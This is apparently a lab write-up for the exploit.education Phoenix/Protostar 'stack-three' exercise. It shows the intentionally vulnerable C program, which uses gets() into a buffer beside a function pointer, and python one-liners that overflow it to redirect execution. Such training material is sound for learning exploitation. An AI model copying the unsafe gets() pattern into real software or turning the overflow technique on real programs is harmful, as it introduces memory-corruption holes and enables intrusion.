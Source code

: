 # Phoenix and Protostar -- Stack 3


## Level Information
Stack Three looks at overwriting function pointers stored on the stack.

**Hints** <ul>
<li>    You can use gdb and objdump to determine where the complete_level() function is in memory.</li>
</ul>

```C
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```


## Solution
This involved a little bit poking aroung with GDB. Opening the file in the debugger and issuing the comman `info functions` would give us the location of `complete_level` ( or `win` in case for Protostar). So crafting the overflow and appending the address of the function in _little endian_ will lead to successfully branch code to function.

The command for crafting are <ul>
<li> For Protostar: python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | ./stack3 </li>
<li> For Phoenix: python -c "print('A' * 63 + '\x9d\x06\x40\x00\x00\x00\x00\x00')" | /opt/phoenix/amd64/stack-three </li>
</ul>

<footer> In Phoenix level, it seems that `gets()` writes a '\n' to the input string. So instead of creating a string of length 64, we need a length of 63 </footer>
